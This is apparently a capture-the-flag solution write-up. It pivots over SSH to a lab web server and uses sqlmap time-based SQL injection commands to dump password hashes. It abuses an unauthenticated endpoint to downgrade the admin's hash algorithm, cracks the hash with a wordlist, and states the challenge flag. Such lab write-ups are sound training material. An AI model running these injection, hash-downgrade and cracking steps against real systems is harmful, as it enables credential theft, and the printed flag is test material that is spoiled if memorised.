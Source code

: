 # Solution

Starting by looking through the code, we can note a few interesting things.

- MySQL driver are use.
- There is a changeHash endpoint that changes the hash algorithm for a user using userid and is not protected.
- There is an input that is not sanitized in the getUserID endpoint which make it vulnerable to SQL injection, but it is not directly use in a login form and no data is returned.
- In the register endpoint, if trying to register with an existing username, it will return the userid of the username in the URL.
- We can see to the database schema.

## Enumeration

We have initial access using SSH and the provided credential.

```shell
ssh user@<ip> -p <port>
```

We know there is a webserver on the same network which is the target. So we start enumerating.

```shell
ifconfig
```

We can note the current network and try to find the webserver IP.

![alt text](nmap.png)

Now, we can try to access the webpage using a simple proxy.

```shell
ssh user@<ip> -p <port> -D 9050
```

And configure the browser to use this proxy.

![alt text](proxy.png)

![alt text](webpage.png)

For this solution, we can define the IP and port of the server.

```shell
ip=<ip>
port=<port>
```

## UserID

Then we register a user with the username admin so we can get the userid.

```shell
curl  -Ls -o /dev/null -w %{url_effective} "http://$ip:$port/register" \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'username=admin&password=password&email=email%40mail.com&name=name' \
  --insecure
```

So admin userid is 1.

## SQLi

SQL injection is possible in the getUserID endpoint. Since we do not get any data back and is not use in a login form, we can use a blind time-based injection to get the hash of the password. Using SQLMap, since this type of injection is really slow, we can order by id, which will start with 1 and therefore start with the admin.
Since the injection is on the username, we should use a username that doesn't exist. Otherwise, the server calculate the hash everytime, which takes a lot of time for bcrypt 16.

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T
```

When we see that it starts with `$2a$16$`, which is 'bcrypt' with 16 rounds, we can stop since it is very slow to crack.

![alt text](sqlmap_1.png)

## Change Hash

Get the hashing algorithms:

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,algo,round -T HashingAlgorithm -D userDB --dump  --batch --dbms MySQL -p username --technique=T

Database: userDB
Table: HashingAlgorithm
[3 entries]
+----+-------------+-------+
| id | algo        | round |
+----+-------------+-------+
| 1  | bcrypt      | 10    |
| 2  | sha256      | 64    |
| 3  | blake2b_256 | 1     |
+----+-------------+-------+
```

![alt text](sqlmap_2.png)

We can change the hashing algorithm of the admin, since this endpoint is not authentificated. Using blake2b with 1 round is very fast to crack.

```shell
curl "http://$ip:$port/changeHash" \
  --data-raw 'userid=1&algoid=3' \
  --insecure
```

Next time, the admin login, the password will be changed. In the information given in the challenge and in the admin_login.sh script, we can see it should be every 30 seconds.

## SQLi 2

Running SQLMap again, we can see that the hash is now blake2b with 1 round.

```shell
sqlmap -u "http://$ip:$port/login"  --data 'username=ausndbaiusdbniand&password=test' -C id,password_hash,salt -T Users -D userDB --dump  --batch --dbms MySQL -p username --technique=T --flush-session

+----+------------------------------------------------------------------+------------+
| id | password_hash                                                    | salt       |
+----+------------------------------------------------------------------+------------+
| 1  | 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 | WKgDlQLWIE |
+----+------------------------------------------------------------------+------------+
```

![alt text](sqlmap_3.png)

## Crack

Using a simple script like solve.go, we can crack the hash in a few seconds.

```shell
go run solve.go 1a5708112d2d7df23e4b2d5b60d5470e8cd01ce48ed8d5dae8d32901d91dc326 WKgDlQLWIE rockyou.txt
Password found:  drakthull1
```

So the flag is: `flag-drakthull1`

